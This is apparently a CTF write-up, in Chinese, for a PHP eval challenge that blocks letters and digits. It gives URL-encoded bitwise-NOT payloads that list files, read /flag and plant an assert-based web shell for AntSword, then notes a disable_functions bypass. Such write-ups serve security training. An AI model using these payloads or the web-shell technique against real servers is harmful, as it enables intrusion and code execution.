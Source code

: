 # \[极客大挑战 2019]RCE ME

\[极客大挑战 2019]RCE ME

## 考点

* 无字母数字RCE
* PHP7参数解析特性
* 取反bypass代码执行

## wp

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
  $code=$_GET['code'];
  if(strlen($code)>40){
    die("This is too Long.");
  }
  if(preg_match("/[A-Za-z0-9]+/",$code)){
    die("NO.");
  }
  @eval($code);
}else{
  highlight_file(__FILE__);
}
```

`eval`的字符串不能出现字母和数字，并且长度不超过40

可以使用取反进行绕过对字符的限制

```
phpinfo() => (~%8F%97%8F%96%91%99%90)(); 

print_r(scandir('./')) => (~%8F%8D%96%91%8B%A0%8D)((~%8C%9C%9E%91%9B%96%8D)(("./")));

readfile("/flag") => (~%8D%9A%9E%9B%99%96%93%9A)((~%D0%8D%9A%9E%9B%99%93%9E%98));
```

`phpinfo()`有disable\_functions，考虑使用一句话

```
assert('eval($_POST[1])') => (~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6);
```

蚁剑连接

![](<../.gitbook/assets/image (14) (1) (1) (1).png>)

再绕过disable\_functions

![](<../.gitbook/assets/image (15) (1).png>)

![](<../.gitbook/assets/image (9) (1) (1).png>)

## 小结

1. [深入浅出LD\_PRELOAD & putenv()](https://www.anquanke.com/post/id/175403)
